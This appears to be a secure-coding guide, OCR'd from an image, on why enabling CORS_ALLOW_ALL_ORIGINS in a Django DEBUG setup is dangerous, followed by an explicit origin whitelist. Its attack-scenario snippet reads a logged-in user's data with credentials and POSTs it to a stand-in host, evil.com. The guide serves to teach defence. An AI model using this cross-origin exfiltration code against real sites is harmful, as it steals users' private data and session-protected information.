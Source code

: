 `CORS_ALLOW_ALL_ORIGINS = True` in DEBUG mode creates security vulnerability even in development.

```python
# WRONG: Allows all origins in DEBUG mode
CORS_ALLOW_ALL_ORIGINS = True if DEBUG else False

# CVSS 7.5 - High Severity
# CWE-942: Permissive Cross-domain Policy with Untrusted Domains
```

### Why This is Dangerous

1. **Development Database**: Often contains production-like data
2. **Credential Exposure**: Session tokens, JWT tokens vulnerable
3. **CSRF Bypass**: Any origin can make authenticated requests
4. **Habit Formation**: Developers copy DEBUG patterns to production

### Attack Scenario

```javascript
// Attacker's website (evil.com) can steal user data
fetch('http://localhost:8000/api/v1/users/me/', {
  credentials: 'include'  // Includes cookies
}).then(r => r.json())
  .then(data => {
    // Send user data to attacker's server
    fetch('https://evil.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
```

### Correct Pattern

```python
# CORRECT: Explicit whitelist even in DEBUG mode
CORS_ALLOWED_ORIGINS = [
    'http://localhost:3000',
    'http://127.0.0.1:3000',
    'http://localhost:5173',
    'http://127.0.0.1:5173',
    'http://localhost:5174',
    'http://127.0.0.1:5174',
]

# CRITICAL: NEVER use CORS_ALLOW_ALL_ORIGINS
CORS_ALLOW_ALL_ORIGINS = False  # Explicit security control

# Additional required settings
CORS_ALLOW_CREDENTIALS = True
CORS_ALLOW_METHODS = [
    'DELETE', 'GET', 'OPTIONS', 'PATCH', 'POST', 'PUT',
]
CORS_ALLOW_HEADERS = [
    'accept', 'accept-encoding', 'authorization',
    'content-type', 'dnt', 'origin', 'user-agent',
    'x-csrftoken', 'x-requested-with',
]

# Don't forget CSRF protection
CSRF_TRUSTED_ORIGINS = [
    'http://localhost:3000',
    'http://localhost:5173',
    'http://localhost:5174',
]
```